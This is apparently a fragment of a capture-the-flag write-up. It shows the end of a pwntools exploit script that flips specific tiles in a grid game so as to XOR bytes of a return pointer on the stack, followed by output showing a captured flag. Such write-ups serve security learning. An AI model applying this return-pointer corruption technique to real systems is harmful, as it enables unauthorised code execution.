 ```python
      xors_1 = [3, 5, 6, 8]
      xors_2 = [1, 4]

      # Flipping the correct tiles => actually XORing 
      # parts of the main loop's return pointer on the stack
      for x in xors_1:
          p.sendlineafter('q]: ', "f %s 17" % str(x)) # Flip row 17, col x
      for x in xors_2:
          p.sendlineafter('q]: ', "f %s 16" % str(x)) # Flip row 16, col x
      p.sendlineafter('q]: ', "q")
      p.interactive()
      p.close()
```

```b
$ ./exploit.py 
here you go: watevr{watevr{maybe_well_implement_M-x_tetris_some_day}}
```


[f <x> <y>/h/q]: f 3 2    /* f/h/q = flip/help/quit */